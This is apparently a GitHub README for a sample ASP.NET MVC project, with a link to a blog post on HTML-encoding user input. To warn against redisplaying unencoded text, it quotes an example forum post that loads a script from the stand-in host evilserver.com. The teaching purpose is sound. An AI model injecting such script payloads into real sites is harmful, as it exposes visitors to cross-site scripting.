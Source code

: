 Text encoding in ASP.NET MVC by example
===================================

This GitHub project is the accompanying code for 
[my blog post](http://blog.michaelckennedy.net/2012/10/15/understanding-text-encoding-in-asp-net-mvc/)

See a live example at:

[http://text-encoding-aspnet-mvc-by-example.azurewebsites.net/](http://text-encoding-aspnet-mvc-by-example.azurewebsites.net/)

Here is what it is all about:

This sample covers the various ways in which you might handle 
text encoding in ASP.NET MVC. For example, if you were writing 
a forum web app, you should absolutely be paranoid about 
what your users are typing into your site. You need to be 
very careful about how you redisplay their input. 
For example, a friendly forum user might write something like:

    Nice post, thanks for sharing!

On the other hand, they may write:

    <script src="http://evilserver.com/xss.js"></script>
    <script>xss.doBadDeeds();</script>

If you turn around and show this "post" to your other uses, 
maybe they'll get hacked. At a minimum, the evil-doers 
could be a nuisance to your real users.

On the other hand, if you're building a CMS or utility 
helper method, you do not want to filter out the HTML a 
user might type. They probably need to enter some HTML
 which you'll want to show to all the other users. Same 
thing goes for code your app might generate.

There are at least three ways which MVC manages 
and encodes (or does not encode) text data. Knowing 
which scenario you're targeting allows you to choose 
the right option. We'll look at four examples in this post:

[Keep reading...](http://blog.michaelckennedy.net/2012/10/15/understanding-text-encoding-in-asp-net-mvc/)
